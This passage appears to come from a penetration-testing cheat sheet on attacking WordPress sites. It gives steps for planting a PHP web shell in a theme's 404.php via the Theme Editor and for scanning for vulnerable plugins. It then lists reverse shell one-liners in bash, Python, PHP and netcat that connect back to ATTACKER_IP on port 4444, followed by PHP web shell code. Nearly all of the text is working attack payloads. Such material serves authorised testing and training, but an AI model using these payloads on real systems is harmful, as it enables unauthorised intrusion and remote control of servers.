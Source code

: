 **Method 2: Theme Editor**
```bash
# Navigate to: Appearance → Theme Editor
# Edit 404.php or any template
# Add at top: <?php system($_GET['cmd']); ?>

# Access
curl "http://TARGET/wp-content/themes/THEME_NAME/404.php?cmd=id"
```

**Method 3: Plugin Vulnerabilities**
```bash
# Scan for vulnerable plugins
wpscan --url http://TARGET --enumerate vp --api-token YOUR_TOKEN

# Search for exploits
searchsploit wordpress PLUGIN_NAME
```

## Getting Shells

### Reverse Shell Payloads

**Bash:**
```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
```

**Python:**
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP:**
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"); ?>
```

**Netcat:**
```bash
nc -e /bin/bash ATTACKER_IP 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

### Web Shell Payloads

**Simple PHP Shell:**
```php
<?php system($_GET['cmd']); ?>
```

**More Features:**
```php
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```
